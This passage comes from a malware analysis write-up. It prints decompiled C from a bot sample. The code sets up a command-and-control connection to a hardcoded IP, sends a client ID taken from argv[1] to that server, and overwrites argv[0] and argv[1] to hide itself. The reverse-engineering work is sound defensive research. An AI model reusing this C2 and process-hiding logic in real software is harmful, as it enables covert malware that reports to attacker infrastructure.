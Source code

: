 ```c
void mw_setup_c2_connection(void)

{
  undefined2 *puVar1;
  
  mw_decrypt_with_key(1); // 0x520 = 1312
  sockaddr_in_00020e48.sin_addr.s_addr = mw_inet_aton_w("154.7.253.207");
  puVar1 = (undefined2 *)mw_get_table_entry(1,0);
  sockaddr_in_00020e48.sin_port._1_1_ = (undefined1)((ushort)*puVar1 >> 8);
  sockaddr_in_00020e48.sin_port._0_1_ = (undefined1)*puVar1;
  mw_encrypt_with_key(1);
  return;
}
```

### Hiding `argv[1]`

`argv[1]` (the first command line argument) is backed up for later use and then cleared. Based on the surrounding code it is likely a unique ID which is sent to the C2 server later.

```c
undefined4 mw_main(int param_1,undefined4 *param_2)

{
...
  mw_memset_zero(mw_id,0x20);
  if ((param_1 == 2) && (iVar3 = mw_strlen((char *)param_2[1]), iVar3 < 0x20)) {
    mw_strcpy(mw_id,param_2[1]);
    pcVar8 = (char *)param_2[1];
    iVar3 = mw_strlen(pcVar8);
    mw_memset_zero(pcVar8,iVar3);
  }
...
            if ((DAT_00020b78 == 0xffffffff) &&
               (uVar2 = mw_socket(2,1,0), DAT_00020b78 = uVar2, uVar2 != 0xffffffff)) {
...                                 
              mw_connect(DAT_00020b78,&sockaddr_in_00020e48,0x10);
...
                mw_send(DAT_00020b78,mw_id,(char)local_26,0x4000);
...
```

### Hiding `argv[0]`

`argv[0]` (the program name) is overwritten by a random generated string.

```c
undefined4 mw_main(int param_1,undefined4 *param_2)

{
...
  uVar2 = mw_get_prng();
  iVar3 = mw_strlen((char *)*param_2);
  iVar4 = mw_strlen((char *)*param_2);
  iVar3 = mw_unsigned_modulo(uVar2,0x14 - iVar3);
  mw_xorshift128_str(auStack_5c,iVar3 + iVar4);
  iVar9 = 0;
  uVar5 = *param_2;
  auStack_5c[iVar3 + iVar4] = 0;
  mw_strcpy(uVar5,auStack_5c);
  mw_memset_zero(auStack_5c,0x20);
...
```
